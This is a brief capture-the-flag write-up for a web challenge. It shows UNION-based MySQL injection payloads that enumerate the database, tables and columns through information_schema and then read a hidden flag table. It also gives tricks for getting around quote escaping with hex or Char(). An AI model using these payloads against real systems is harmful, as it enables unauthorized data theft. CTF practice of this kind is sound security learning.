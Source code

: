 The same website as `login as admin 0`

But different flag. Maybe we need to fetch the database to get it.

Combine the task `guestbook` and `login as admin 0`

```
\' UNION SELECT NULL,database(),NULL,NULL -- -

\' UNION SELECT NULL,GROUP_CONCAT(table_name),NULL,NULL FROM information_schema.tables WHERE table_schema=database() -- -

# h1dden_f14g,user

\' UNION SELECT NULL,GROUP_CONCAT(column_name),NULL,NULL FROM information_schema.columns WHERE table_name="h1dden_f14g" -- -

```
We got the column `the_f14g`

Notable: After the `WHERE` clause, the string should be put in single quotes ,double quotes or backticks. But it will not working if you replace the `'` to `\'`.

There is some way to solve it.

1. Replace the `'` to `"`
2. Replace the string to hex e.g: `h1dden_f14g` -> `0x68316464656e5f66313467`
3. Use `Char()` to represent the string.

> [When to use single quotes, double quotes, and backticks in MySQL](https://stackoverflow.com/questions/11321491/when-to-use-single-quotes-double-quotes-and-backticks-in-mysql)

```
\' UNION SELECT NULL,the_f14g,NULL,NULL FROM login_as_admin0.h1dden_f14g -- -
```



